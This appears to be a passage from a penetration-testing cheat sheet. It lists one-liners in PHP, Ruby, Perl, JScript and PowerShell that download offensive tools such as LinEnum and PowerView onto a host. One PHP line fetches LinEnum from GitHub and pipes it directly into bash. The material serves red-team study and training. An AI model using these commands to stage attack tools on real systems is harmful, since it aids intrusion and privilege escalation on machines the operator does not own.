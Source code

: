 Example - PHP Download a File and Pipe it to Bash:

```
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```



## Download Files with other Programming Languages

> Ruby

Download a File:

```
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

> Perl

Download a File:

```
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

> JavaScript

Download a File:

```
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```



## Download Files with Powershell

> File download with the method DownloadFile

Syntax:

```
(New-Object Net.WebClient).DownloadFile('<TargetFileURL>','<OutputFileName>')
```

Other method is DownloadFileAsync:

```
(New-Object Net.WebClient).DownloadFileAsync('<TargetFileURL>','<OutputFileName>')
```

Example to download PowerView:

```
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```
